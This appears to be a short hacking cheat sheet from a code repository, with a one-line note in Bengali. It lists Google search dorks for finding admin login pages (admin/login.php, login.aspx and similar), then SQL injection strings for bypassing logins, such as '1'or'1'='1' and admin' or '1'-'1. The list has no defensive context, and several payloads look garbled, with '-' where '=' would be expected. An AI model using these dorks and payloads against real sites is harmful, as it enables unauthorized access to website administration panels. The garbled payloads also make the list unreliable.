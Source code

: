 # ETH

## Dork:
ei duita te beshi kaj hobe.
- inurl: admin/login.php site:.com
- inurl: admin/login.php site:.in
- inurl: admin/login.php
- inurl: admin/index.php
- inurl: admin
- inurl: login.php
- inurl: login.php site:.in

Two
- inurl:adminlogin.aspx
- inurl:admin/index.php
- inurl:administrator.php
- inurl:administrator.asp
- inurl:login.asp
- inurl:login.aspx
- inurl:login.php
- inurl:admin/index.php
- inurl:adminlogin.aspx

  - 1'or'1'='1
  - 1'or'1'-'1
  - OR 1-1 LIMIT 1 ;# or 1-1 limit 1 --
  - admin' or '1'-'1
  - 'or 1-1 limit 1--



